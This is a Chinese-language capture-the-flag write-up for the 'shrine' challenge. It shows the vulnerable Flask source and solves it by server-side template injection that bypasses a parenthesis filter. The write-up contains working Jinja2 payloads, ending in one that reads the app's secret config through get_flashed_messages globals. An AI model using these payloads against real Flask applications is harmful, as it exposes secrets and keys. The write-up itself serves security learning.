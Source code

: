 # [WesternCTF2018]shrine

## 分析

打开网页首先是一段源码，右键查看网页源代码，如下：

``` python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)

```

查看发现

``` python
render_template_string(safe_jinja(shrine))
```

那这题应该是个SSTI，这个我之前不怎么会，赶紧搜搜搜，然后试了一波，发现很多都没有过滤小括号的教程，开始陷入迷茫。

 之后google发现大佬的wp，赶紧跟着做一波

## 解题

以下为大佬原文，链接在reference最后一个

``` python
{{7*7}}
```

![2019-07-29_112958](D:\CTF\ctf\web\buuctf\[WesternCTF2018]shrine\picture\2019-07-29_112958.jpg)

``` python
{{7*'7'}}
```

![2019-07-29_115216](D:\CTF\ctf\web\buuctf\[WesternCTF2018]shrine\picture\2019-07-29_115216.jpg)

测试发现是 jinja2 或 Twig，后端源码为 flask

所以这个是关于 flask + jinja2 的 SSTI

至于为什么，请看图

![1275435-20190304230146045-1430183232](D:\CTF\ctf\web\buuctf\[WesternCTF2018]shrine\picture\1275435-20190304230146045-1430183232.png)

``` python
{{''.__class__.__mro__[2].__subclasses__()}}
```

![2019-07-29_113220](D:\CTF\ctf\web\buuctf\[WesternCTF2018]shrine\picture\2019-07-29_113220.jpg)

明显这里对 `()` 进行了过滤

只能从别的地方入手，例如 flask 的内置函数和变量，

当然，config 和 self 也被加入了黑名单

但通过变量去读取 app.config 也会涉及到 `()` 的使用

所以只剩下内置函数

get_flashed_messages(), url_for()

构造payload

``` python
{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

![QQ截图20200131164532](D:\CTF\ctf\web\buuctf\[WesternCTF2018]shrine\picture\QQ截图20200131164532.png)

得到flag

## reference

* [浅析SSTI(python沙盒绕过)](http://flag0.com/2018/11/11/浅析SSTI-python沙盒绕过/)

* [CTF|有关SSTI的一切小秘密【Flask SSTI+姿势集+Tplmap大杀器】](https://zhuanlan.zhihu.com/p/93746437)

* [WP-TokyoWesterns CTF 4th 2018 shrine](WP-TokyoWesterns CTF 4th 2018 shrine)